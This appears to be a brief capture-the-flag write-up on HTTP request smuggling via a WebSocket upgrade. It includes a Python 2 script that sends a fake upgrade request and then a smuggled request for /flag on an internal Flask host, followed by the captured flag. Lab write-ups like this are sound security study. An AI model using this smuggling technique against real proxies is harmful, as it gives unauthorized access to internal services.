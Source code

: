## HTTP_REQUEST_SMUGGLING_websocket

- More difficult HTTP request smuggling to access a page in a hidden network
- Exploit it (with Python2...pain or gain)
  ```python
  import socket 

  req1 = """GET /socket.io/?EIO=3&transport=websocket HTTP/1.1
  Host: localhost:9020
  Sec-WebSocket-Version: 13
  Upgrade: websocket
  Connection: Upgrade

  """.replace('\n', '\r\n')


  req2 = """GET /flag HTTP/1.1
  Host: flask.net:5000

  """.replace('\n', '\r\n')

  def main(netloc):
      host, port = netloc.split(':')

      sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      sock.connect((host, int(port)))

      sock.sendall(req1)
      data = sock.recv(4096)
      print(data)

      sock.sendall(req2)
      data = sock.recv(4096)
      data = data.decode(errors = 'ignore')

      print(data)

      sock.shutdown(socket.SHUT_RDWR)
      sock.close()

  if __name__ == "__main__":
      main('localhost:9020')
  ```
- flag: companyctf{In_50VI37_rUS5Ia_vODK@_DRiNKs_YOu}
